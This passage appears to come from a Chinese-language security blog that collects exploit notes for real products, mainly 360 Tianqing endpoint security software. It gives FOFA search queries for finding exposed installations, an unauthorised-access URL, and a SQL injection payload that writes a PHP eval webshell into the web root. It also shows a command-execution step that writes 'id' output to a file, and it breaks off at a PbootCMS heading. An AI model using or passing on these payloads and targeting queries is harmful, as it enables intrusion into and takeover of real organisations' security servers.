 放包，执行 id 命令，并将结果输出到网站根目录下的 1.txt 中

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZ408ZCoNArbLlRndDdbbvCJtathTTA0MFcnW4sXYic8auNYiaVPRT7b5g/640?wx_fmt=png)

然后访问根目录下的 1.txt 文件

http://x.x.x.x/1.txt

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZDw2LG39vwUGs03n99sAVia87WEmVCzXibbyFozCiaum3ic3YWSvBD56jVg/640?wx_fmt=png)

360 天擎_越权访问

fofa 语法
-------

```
app="360天擎私有云杀毒管理V6.0系统"
app="360天擎终端安全管理系统"
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZr9k7riapf2HQ0qWCsEc5DeyTCfaIobeMqvU4d0WmYKIGickTPuCu24OA/640?wx_fmt=png)

poc
---

```
https://x.x.x.x/api/dbstat/gettablessize
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZ4Ocz13lADpJibCPq41tQF4fHF8cAfm9J11KpAShVX7cW3IUq6VYTusw/640?wx_fmt=png)

天擎_前台 sql 注入

fofa  

```
app="360天擎私有云杀毒管理V6.0系统"
app="360天擎终端安全管理系统"
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZr9k7riapf2HQ0qWCsEc5DeyTCfaIobeMqvU4d0WmYKIGickTPuCu24OA/640?wx_fmt=png)

poc

```
/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--
```

这里我是用 sqlmap 验证的

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZ2njicpDfsKUPI3IfFeRQ9PqhqJu4iaPQ53ibc0Rb8FqqCRfPicPrvH86lQ/640?wx_fmt=png)

PbootCMS SQL 注入漏洞（CNVD-2021-26207）
----------------------------------

fofa
